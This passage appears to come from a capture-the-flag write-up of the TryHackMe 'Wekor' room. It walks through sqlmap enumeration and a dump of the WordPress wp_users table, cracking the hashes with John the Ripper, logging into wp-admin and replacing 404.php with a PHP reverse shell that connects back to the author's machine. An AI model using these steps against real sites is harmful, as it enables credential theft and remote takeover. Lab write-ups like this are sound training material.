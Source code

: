 ```bash
sqlmap -r <file-name> -dbs
```
There are 6 DB names:

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*0NDdfqjNQcgogQKrD6bZgw.png)

“mysql” can be interesting but “wordpress” is even more.

```bash
sqlmap -r <file-name> -D wordpress --tables
```

Results:

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*-ylBoAgLr124jrRYMSPpAQ.png)

wp_users is the table that gives use usernames and their hashed passwords.
It’s dumping time.

```bash
sqlmap -r <file-name> -D wordpress -T wp_users --dump
```

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*94XKvjTMJxL0bOfAJgqH-A.png)

As we can see there is a new subdomain that relates to wordpress within 4 users. 
Firstly, let’s add the new subdomain to /etc/hosts.
```bash
echo '<ip-address>     wekor.thm site.wekor.thm' >> etc/hosts 
```

Check the sqlmap table output file:

![image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*94-Ck1JKFl8pafGOyu4Jww.png)

Let’s grab the hashes from table file and crack it with John The Ripper.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt <file-name>
```

don’t know why john found only 2 passwords but it was good enough.

![image](https://miro.medium.com/v2/resize:fit:326/format:webp/1*M7GrnkNQPJpW72pLXP3WOw.png)

After getting the passwords I navigated to http://site.wekor.thm/wordpress/wp-admin and there is login page.

Try the passwords with the usernames.

The successful login leads me to change the 404.php file, and then i modified it with
php reverse shell that connect to my machine with specific port.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*X6s68Pl-R9q2YaRGpKyX8g.png)

let’s navigate to a page that isn’t exist to execute the code and get a shell!

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*z9i0i7llewNBx0dZeBwRXQ.png)
